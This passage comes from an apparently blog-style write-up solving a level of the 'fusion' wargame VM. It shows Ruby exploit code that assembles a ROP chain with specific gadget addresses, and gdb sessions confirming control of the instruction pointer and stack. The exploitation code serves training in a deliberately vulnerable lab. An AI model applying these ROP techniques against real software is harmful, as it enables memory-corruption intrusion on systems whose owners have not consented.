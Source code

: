   buf = prejunk + ropbuf
  e = xor_encrypt(buf, key)
  encrypt(e.length, e)

  # Send the quit command
  sock.put('Q')

  # Send extra data for the rop chain to read
  sock.put(cmd)

  disconnect
end
{% endhighlight %}

Attach gdb, reload the module, and send it:

{% highlight bash %}
root@fusion:/home/fusion# gdb -q
0xb7750424 in __kernel_vsyscall ()
(gdb) c
Continuing.
[New process 29413]

Program received signal SIGSEGV, Segmentation fault.
[Switching to process 29413]
0xdeadbeef in ?? ()
(gdb) x/s 0x0804b420
0x804b420 <environ@@GLIBC_2.0>: 'A' <repeats 32 times>
(gdb)
{% endhighlight %}

Confirmed the rop chain executed, wrote the data, and returned to our controlled address.

At the time of the crash the next 12 bytes on the stack are from the rop chain just executed.  

{% highlight bash %}
0xdeadbeef in ?? ()
(gdb) x/4wx $esp
0xbfa342c4: 0x00000000  0x0804b420  0x00000020  0xb773fff4
(gdb)
{% endhighlight %}

To get a clean stack back return to a pop;pop;pop;ret gadget, one exists at `0x08048f85`

The rop chain becomes

{% highlight Ruby %}
ropbuf = [0x0804952d].pack('V') # addr of nread
ropbuf += [0x08048f85].pack('I') # return address, also pop;pop;pop;ret
ropbuf += [0x00000000].pack('I') # arg0: filedes
ropbuf += [0x0804b420].pack('V') # arg1: buf ptr
ropbuf += [data.length].pack('I') # arg2: length

# Place holder for next rop chain
ropbuf += [0xdeadbeef].pack('V')
{% endhighlight %}
